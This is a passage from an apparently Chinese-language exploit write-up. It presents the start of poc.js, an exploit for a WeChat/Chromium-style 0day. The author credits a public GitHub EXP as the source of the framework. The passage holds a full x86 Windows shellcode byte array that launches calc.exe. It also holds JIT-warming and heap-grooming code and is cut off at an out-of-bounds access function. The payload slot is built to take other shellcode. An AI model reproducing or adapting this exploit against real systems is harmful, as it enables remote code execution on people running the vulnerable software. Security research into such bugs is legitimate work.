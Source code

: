 

`poc.js`：这个是攻击的核心，尤其是shellcode部分（这里的shellcode是刚刚自己掰的，功能是打开计算器）

框架部分是嫖的，感谢[Jaky5155](https://github.com/Jaky5155/Wechat_0day/)开源的EXP

```js
ENABLE_LOG = true;
IN_WORKER = true;

// run calc and hang in a loop
//var shellcode = [#shellcode];

var shellcode = [0xfc, 0xe8, 0x82, 0x0, 0x0, 0x0, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30, 0x8b, 0x52, 0xc, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0xf, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0xc1, 0xcf, 0xd, 0x1, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x1, 0xd1, 0x51, 0x8b, 0x59, 0x20, 0x1, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49, 0x8b, 0x34, 0x8b, 0x1, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0xd, 0x1, 0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x3, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe4, 0x58, 0x8b, 0x58, 0x24, 0x1, 0xd3, 0x66, 0x8b, 0xc, 0x4b, 0x8b, 0x58, 0x1c, 0x1, 0xd3, 0x8b, 0x4, 0x8b, 0x1, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x1, 0x8d, 0x85, 0xb2, 0x0, 0x0, 0x0, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0xa, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x6, 0x7c, 0xa, 0x80, 0xfb, 0xe0, 0x75, 0x5, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x0, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x0];
// open calc

function print(data) {
}


var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});

for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}


var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;

function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}

function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}

function oobAccess() {
```